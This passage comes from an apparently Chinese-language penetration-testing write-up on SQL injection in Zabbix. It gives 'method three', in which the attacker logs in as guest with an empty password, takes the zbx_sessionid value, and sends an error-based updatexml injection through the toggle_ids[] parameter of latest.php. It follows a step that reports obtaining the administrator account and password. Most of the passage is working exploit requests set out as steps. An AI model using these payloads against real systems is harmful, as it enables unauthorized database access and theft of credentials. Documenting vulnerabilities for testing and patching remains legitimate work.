 得到管理员账户和密码

![image-20250807095335846](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202508070953890.png)



**方法三：不同的注入页面，使用不同的注入语句**

```
latest.php?output=ajax&sid=3f108ab358161a3b&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)
```

（1）使用（**guest/空**）登录后，获取下图**zbx_sessionid**的**16**位值：

![image-20250807101237715](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202508071012835.png)

（2）使用下面的语句进行注入查询

```
latest.php?output=ajax&sid=6f8835e35db2f421&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)
```

![image-20250807101515664](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202508071015747.png)
